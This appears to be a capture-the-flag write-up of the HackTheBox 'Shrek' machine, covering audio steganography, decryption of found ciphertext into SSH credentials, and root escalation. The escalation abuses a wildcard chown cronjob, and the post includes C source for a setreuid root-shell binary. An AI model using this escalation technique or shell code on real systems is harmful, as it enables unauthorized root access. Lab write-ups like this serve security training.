 ```yaml
---
title: "HackTheBox - Shrek (Steganography)"
categories:
  - blog
  - posts
---
```

Shrek was I believe one of the original boxes released way back in 2018, it has a lot of elements to it that resemble a CTF more than a traditional pentest practice.

# User 
Went into uploads, found a php rev shell alluding to an area 51 directory, went there and downloaded an .mp3. Cut the end of the .mp3 which was just static noise, put it into spectrogram (which required max frequency on spectogram scale settings) and we got an ftp login.

![image](https://github.com/user-attachments/assets/0f79b394-1fcb-426e-9769-b78a647113ec)

did `mget *.txt` to download everything within.

`for i in $(ls *.txt); do echo $i; base64 -d $i > sneed; done` showed us two files that stuck out as they couldn’t be decoded because of spaces inside, one had the password `PrinceCharming`

The other one had a weird mix of asci and hex. We had to use the seccure library to decode it.

```python
`import seccure`

`ct = b'\x01\xd3\xe1\xf2\x17T \xd0\x8a\xd6\xe2\xbd\x9e\x9e~P(\xf7\xe9\xa5\xc1KT\x9aI\xdd\\!\x95t\xe1\xd6p\xaa"u2\xc2\x85F\x1e\xbc\x00\xb9\x17\x97\xb8\x0b\xc5y\xec<K-gp9\xa0\xcb\xac\x9et\x89z\x13\x15\x94Dn\xeb\x95\x19[\x80\xf1\xa8,\x82G`\xee\xe8C\xc1\x15\xa1~T\x07\xcc{\xbd\xda\xf0\x9e\x1bh\'QU\xe7\x163\xd4F\xcc\xc5\x99w'`

`plaintext = seccure.decrypt(ct, b"PrinceCharming")`

`print(plaintext)`
```

Our output is the password for the SSH key!
`b'The password for the ssh file is: shr3k1sb3st! and you have to ssh in as: sec\n'`

# Privilege Escalation
Privesc was very specific and actually had a rabbit hole in sudo -l where you could run a binary as farquad that didn’t actually do anything. We look for recently modified files in between the timeframe the user.txt was made

`find / -type f -newermt 2017-08-20 ! -newermt 2017-08-25 2>/dev/null`

here’s a cronjob so we can just run pspy to catch it.

[`/bin/sh -c cd /usr/src; /usr/bin/chown nobody:nobody *`](https://www.exploit-db.com/papers/33930)

https://www.exploit-db.com/papers/33930

I tried doing it with a local copy of bash but it didn’t work so I had to just make my own

`#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main( int argc, char *argv[] )
{
setreuid(0, 0);
execve("/bin/sh", NULL, NULL);
}`

`gcc final.c -o final`

wait 5 minutes for the crontab, run it, and you're root.
